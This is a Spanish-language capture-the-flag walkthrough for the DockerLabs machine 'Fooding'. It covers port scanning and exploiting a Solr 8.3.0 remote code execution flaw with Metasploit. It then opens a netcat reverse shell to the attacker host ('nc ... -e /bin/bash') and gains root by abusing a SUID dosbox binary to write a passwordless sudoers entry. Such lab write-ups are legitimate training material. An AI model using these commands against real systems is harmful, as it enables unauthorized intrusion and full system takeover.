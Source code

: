 - **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- Slor 8.3.0 Remote Code Execution via Velocity Template

### Reconocimiento y enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```
![[Pasted image 20240709193254.png]]

Nos reporta el puerto 80 y el puerto 8983, haremos un escaneo mas exhaustivo para ver que corre por cada puerto.
```bash
sudo nmap -p 80,8983 -sCV 172.17.0.2 -oN targeted.txt
```
![[Pasted image 20240709193514.png]]
- Puerto 80: HTTP Apache
- Puerto 8983: Solr Admin

Después de analizar el informe de nmap, identificamos que el puerto 80 está activo y ejecuta un servicio Apache. Además, notamos que en el puerto 8983 se está ejecutando otro servicio, que es un servidor web desarrollado en Java y empleado para realizar búsquedas específicas, como las que se realizan dentro de un blog.

En el puerto 80 solo encontramos una imagen, la cual no nos aporta información útil, por lo que decidí investigar más a fondo el servicio Solr.

![[Pasted image 20240709194022.png]]
Como podemos observar en el panel de control, se muestra la versión del servicio. Con esta información, procedo a investigar si existen vulnerabilidades explotables.

Tuvimos suerte y encontramos varios métodos de explotación. Básicamente, es el mismo procedimiento, pero con diferentes enfoques: uno utilizando Metasploit y otro empleando un script en Python.
[Exploit Solr 8.3.0](https://www.exploit-db.com/exploits/48338)

### Explotación

    - Utilizo tanto el método con msfconsole como con el script.

Con Metasploit, sigo los pasos después de analizarlos cuidadosamente y los adapto a mi entorno.

#### Metasploit
Buscamos el exploit con el comando:
```bash
search solr
```
![[Pasted image 20240709195212.png]]

```bash
use 0
set RHOSTS 172.17.0.2
set LHOST 172.17.0.1
check
```
![[Pasted image 20240709195413.png]]

Al poner check, nos dice que el target es vulnerable.
![[Pasted image 20240709195557.png]]

Ejecutamos el comando run y estaremos dentro de la máquina como usuario ninhack.
![[Pasted image 20240709195738.png]]

### Escalada de privilegios
Primero me mandé una shell para trabajar mas cómodo con el siguiente comando:
```bash
nc 172.17.0.1 1234 -e /bin/bash
```

Para la escalada de privilegios primero probé  con sudo y nos pide contraseña así que me puse a investigar y vi que tengo permisos SUID con el binario **dosbox**.
```bash
find / -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Miro en la página [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid) y encuentro justo el método para escalar privilegios usando ese script.

Después de investigar un poco, entiendo que este binario nos permite escribir en el sistema. Esto nos da la posibilidad de modificar ciertos archivos para obtener privilegios de root.

Para finalizar la explotación, realizo lo siguiente con sudoers:

```bash
LFILE='\etc\sudoers.d\ninhack'
/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Una vez ejecutados esos comandos, solo necesitamos ejecutar `sudo su` para convertirnos en usuario root.
![[Pasted image 20240709201931.png]]